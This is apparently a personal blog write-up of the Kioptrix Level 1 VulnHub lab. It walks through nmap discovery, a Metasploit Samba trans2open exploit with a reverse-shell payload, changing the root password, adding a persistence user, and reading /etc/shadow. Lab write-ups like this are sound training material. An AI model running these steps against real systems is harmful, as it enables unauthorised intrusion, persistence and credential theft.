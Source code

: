 ```yaml
---
title: Kioptrix Level 1 writeup
description: Day 1 of 100 Days challenge
date: 2025-10-09
categories: [Vlunhub, 100Days]
tags: [Vlunhub, 100Days, day1, kioptrix_Level_1] 
---
```



# Kioptrix Level 1 writeup ✍️

--- 

## Challenge Description

Name: Kioptrix: Level 1 (#1) <br>
Date release: 17 Feb 2010 <br>
Author: Kioptrix <br>
Series: Kioptrix <br>

### Description
This Kioptrix VM Image are **easy** challenges. The object of the game is to **acquire root access** via any means possible (except actually hacking the VM server or player). The purpose of these games are to **learn** the **basic tools and techniques in vulnerability assessment and exploitation**. There are **more ways** then one to successfully complete the challenges.

Task File Download from here 👉 [Kioptrix Level 1]( https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar)

### File Information
- Filename: Kioptrix_Level_1.rar
- File size: 186 MB
- MD5: 6DF1A7DFA555A220054FB98BA87FACD4
- SHA1: 98CA3F4C079254E6B272265608E7D22119350A37

> Check the File Hash is Downloaded properly or not

### Virtual Machine

Format: Virtual Machine (VMware) <br>
Operating System: Linux

---

## Points I have Learned

- Network Discovery using Nmap
  - `-sn` : finds host up or not
- Scaning Target using Zenmap
- Using Metaspolit To Exploit
- Maintaining Access

--- 

## Step By Step Process

### Step 1: Setup the LAB
- I used VMware to setup Target Machine.
- Extract the archive Downloaded
```bash
unrar x Kioptrix_Level_1.rar
```
Go To VMware File ➡️ open ➡️ Select `.vmx` file ➡️ Poweron the Machine

### Step 2: Finding Target IP address

Target is Living on our Network so, scan our Network to Find Target

#### Step 2.1: Finding Which is our Network

- Finding our IP address
```bash
ifconfig
```
output: 
![ifconfig output](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/ifconfig.png)

- Here our subnetmask is `255.255.255.0` means `/24` CDIR haves 256 Hosts.

#### Step 2.2: Scanning Our Network To Find Target IP

- Using `nmap` with `-sn` gives **host is up OR not**.
```bash
nmap -sn 10.253.198.40/24
```
output: 
![Target Founded](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/targetdiscover.png)

- Here `10.253.198.26` is our Target IP address


### Step 3: Finding Vulnerability

- Here I am Using `zenmap` To Find **open ports & Services**
![zenmap scan](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/zenmapscan.png)

- Here I done **Intense Scan** Found some open ports.

| PORT   |   STATE | SERVICE   |   VERSION |
|--------|----------|----------|------------|
|22/tcp   | open | ssh         | OpenSSH 2.9p2 (protocol 1.99) |
|80/tcp   | open | http        | Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b) |
|111/tcp  | open | rpcbind     | 2 (RPC #100000) |
|139/tcp  | open | netbios-ssn | Samba smbd (workgroup: MYGROUP) |
|443/tcp  | open | ssl/https   | Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6 |
|32768/tcp |open | status      | 1 (RPC #100024) |

- I given output to the **ChatGpt** To Find which Services old
- It Says every Service Observing Here are **Old services**
- **Old services** Contain Vulnerabilities.

### Step 4: Exploitation

- I Used  `Metaspolit` to exploit the Target
- I selected port `139/tcp` to exploit

#### Step 4.1: Setting Exploit 

- searching Exploit 
```bash
search Samba
```
- there are several exploits i selected **69** exploit.
```bash
use exploit/linux/samba/trans2open
```

#### Step 4.2: Configuring Required Options

```bash
show options
```
![options](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/showoptions.png)


```bash
set RHOSTS 10.253.198.26
```
![rhost](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/setrhosts.png)

```bash
set LHOST 10.253.198.40
```
![lhost](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/setlhost.png)

```bash
show payloads
```


```bash
set PAYLOAD payload/linux/x86/shell_reverse_tcp
```
![pyload](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/setpayload.png)

#### Step 4.3: Running explot

```bash
exploit
```
![success](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/exploitsuceesful.png)

- Successfully Gained `root` access

### Step 5: Maintaining Access

- For Login into Target Machine Manually I Changed `root` password
```bash
passwd
```
![changepasswd](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/rootpasswdchange.png)

#### Step 5.1: Future Porpose

- login Target Machine Manually with `root` credentials
```bash
adduser new
```
- added user `new` for future login
```bash
passwd new
```
- adding password for `new` user.

![login](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/maintainedaccess.png)

#### Step 5.2: Conformation that credendials are stored or not

- ALL **user credentials are Stored** in `/etc/passwd` their **hash** are stored in `/etc/shadow` files.

```bash
cat /etc/shadow
```

![shadow](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/etc!shadow.png)


--- 

🚀 Successfully Completed Task.
